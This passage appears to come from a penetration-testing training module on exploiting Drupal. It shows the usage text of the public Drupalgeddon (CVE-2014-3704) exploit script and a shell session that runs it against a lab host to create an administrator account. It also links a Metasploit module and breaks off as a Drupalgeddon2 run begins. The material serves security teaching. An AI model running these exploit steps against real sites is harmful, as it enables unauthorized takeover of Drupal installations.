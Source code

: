                                  Drup4l =&gt; 7.0 &lt;= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         <a class="__cf_email__" data-cfemail="f39a9d959cb39b9c9e969f9291dd9a87" href="/cdn-cgi/l/email-protection">[email protected]</a>
                     <a class="__cf_email__" data-cfemail="c8a0a7a5ada4a9aaa1bc88b8baa7bca7a6a5a9a1a4e6aba0" href="/cdn-cgi/l/email-protection">[email protected]</a>

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww



Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS


Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password
</code></pre>
<p>Here we see that we need to supply the target URL and a username and password for our new admin account. Let's run the script and see if we get a new admin user.</p>
<pre><code class="language-shell-session">[!bash!]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

&lt;SNIP&gt;

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&amp;destination=node
</code></pre>
<p>Now let's see if we can log in as an admin. We can! Now from here, we could obtain a shell through the various means discussed previously in this section.</p>
<img class="website-screenshot" data-url="http://drupal-qa.inlanefreight.local/user#overlay=admin/people" src="/storage/modules/113/drupalgeddon.png"/>
<p>We could also use the <a href="https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/">exploit/multi/http/drupal_drupageddon</a> Metasploit module to exploit this.</p>
<hr/>
<h2>Drupalgeddon2</h2>
<p>We can use <a href="https://www.exploit-db.com/exploits/44448">this</a> PoC to confirm this vulnerability.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 drupalgeddon2.py 
